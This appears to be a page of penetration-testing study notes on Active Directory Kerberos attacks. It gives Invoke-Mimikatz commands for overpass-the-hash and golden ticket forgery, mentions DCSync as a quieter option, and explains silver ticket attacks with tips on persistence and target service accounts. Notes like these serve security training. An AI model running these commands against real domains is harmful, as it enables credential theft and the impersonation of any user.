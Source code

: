 **Overpass the hash to start powershell**\
Invoke-Mimikatz -command '"sekurlsa:pth /user:svcadmin /domain:dom.local /ntlm:hash /run:powershell.exe"'



**Create a golden ticket when we have the krbtgt hash extracted from above** \
****Invoke-Mimikatz - command '"kerberos::golden /User:Administrator /domain:dom.local /sid:S-1-5-21-..... /krbtgt:hash.... id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

Use DCsync Attack / more silent in DC Logs

## 🥈🎫Silver Ticket Attack

### Description

* Step 5 is abused (AP-REQ)
* Trust anchor/key is the NTLM Hash of the Service Account of the application server. You can then access the service by impersonating any user, also high privs User
* A Silver Ticket is a valid TGS
* Encrypted and signed NTLM hash of the service account of the service running with that account
* Service rareley chekcs PAC (Privileged Attriute Certificate) - if it is enabled (default disabled), Silver Ticket Attack will fail
* Services will allow access only to the service themeselves
* ❓ Resonable persistence period (default 30 days for computer accounts) - but machine can request ist earlier or later - disable the change of machine password is also possible
* Interesting Service Accounts: CIFS, host, rpcss (can be used by WMI),wsman (powershell remoting) - all of them use the machine account as their service account
